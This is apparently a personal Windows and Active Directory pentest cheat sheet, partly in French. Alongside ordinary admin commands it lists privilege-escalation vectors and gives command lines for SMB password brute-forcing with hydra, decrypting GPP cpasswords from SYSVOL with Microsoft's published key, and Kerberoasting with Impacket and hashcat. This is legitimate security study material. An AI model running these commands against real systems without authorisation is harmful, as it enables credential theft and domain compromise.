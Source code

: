 # Windows

- [Tenets](#tenets)
  - [Permissions](#permissions)
  - [GPO](#gpo)
  - [Privileges](#privileges)
  - [Windows Privilege Escalation Vectors](#windows-privilege-escalation-vectors)
  - [Initial Information Gathering](#initial-information-gathering)
- [PowerShell](#powershell)
- [Mots de passe](#mots-de-passe)
  - [Mot de passe dans SYSVOL](#mot-de-passe-dans-sysvol)
  - [Kerberoast](#kerberoast)
- [Partage](#partage)
- [Liens utiles](#liens-utiles)

---

> *In case of doubt, reboot*, Rowan Atkinson

## Tenets

### Permissions

Pour check/set les permissions :
```bash
icacls <dossier>
# I  - permission inherited from the parent container
# F  - full access (full control)
# M  - modify right/access
# OI - object inherit
# IO - inherit only
# CI - container inherit
# RX - read and execute
# AD - append data (add subdirectories)
# WD - write data and add files
```

### GPO

Mettre à jour les GPO :
```bash
gpupdate /force
```

### Privileges

On a typical Windows server, you may find several different account types :
- **Domain Administrators** : This is typically the highest account level you will find in an enterprise along with Enterprise Administrators. An account with this level of privilege can manage all accounts of the organization, their access levels, and almost anything you can think of.
- **Services** : Accounts used by software to perform their tasks such as back-ups or antivirus scans.
- **Domain users** : Accounts typically used by employees. These should have just enough privileges to do their daily jobs. For example, a system administrator may restrict a user's ability to install and uninstall software.
- **Local accounts** : These accounts are only valid on the local system and can not be used over the domain.

### Windows Privilege Escalation Vectors

A few common vectors that could allow any user to increase their privilege levels on a Windows system :
- **Stored Credentials** : Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
- **Windows Kernel Exploit** : The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
- **Insecure File/Folder Permissions** : In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
- **Insecure Service Permissions** : Similar to permissions over sensitive files and folders, low privileged users may have rights over services. These can be somewhat harmless such as querying the service status (SERVICE_QUERY_STATUS) or more interesting rights such as starting and stopping a service (SERVICE_START and SERVICE_STOP, respectively).
- **DLL Hijacking** : Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.
- **Unquoted Service Path** : If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
- **Always Install Elevated** : Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
- **Other software** : Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

### Initial Information Gathering

A few key points in enumeration :
- **Users** on the target system : The `net users` command will list users on the target system.
- **OS version** : The `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` command will output information about the operating system. This should be used to do further research on whether a privilege escalation vulnerability exists for this version.
- **Installed services** : the `wmic service list` command will list services installed on the target system.

## PowerShell

```powershell
# afficher en arborescence
tree /f

# lien symbolique
new-item -itemtype symboliclink -path . -name settings.json -value "C:\Users\Kamil\OneDrive\Windows Terminal\settings.json"
```

## Mots de passe

Pour se connecter en local et pas sur le domaine : `.\username`

Bruteforce sur le réseau (pas du tout discret) :
```bash
hydra -L usernames.txt -P rockyou.txt 192.168.10.1 smb
```

### Mot de passe dans SYSVOL

Pour déchiffrer le cpassword d'un compte défini dans une GPO sur un partage :
- utiliser la recette [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Hex','string':'4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D))
- ou [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) si besoin offline

Clé AES256 donnée par [Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) :
```bash
# AES256 cipher key
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
# Initialisation Vector
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Source : https://adsecurity.org/?p=2288

### Kerberoast

Avec [Impacket](https://github.com/SecureAuthCorp/impacket) :
```bash
python3 ./GetUserSPNs.py -request -dc-ip 192.168.10.1 MIDGAR.LAN/scarlet:password -outputfile kerberoast.hash
```

Pour casser ces hash :
```bash
hashcat -m 13100 -a 0 kerberoast.hash rockyou.txt -o output.txt
```

## Partage

Pour récupérer tous les fichiers d'un partage, et les étudier en local :
```powershell
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## Liens utiles

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

Pentesting Active Directory mindmap :
- https://www.xmind.net/m/5dypm8/
- https://i.ibb.co/TKYNCNP/Pentest-ad.png
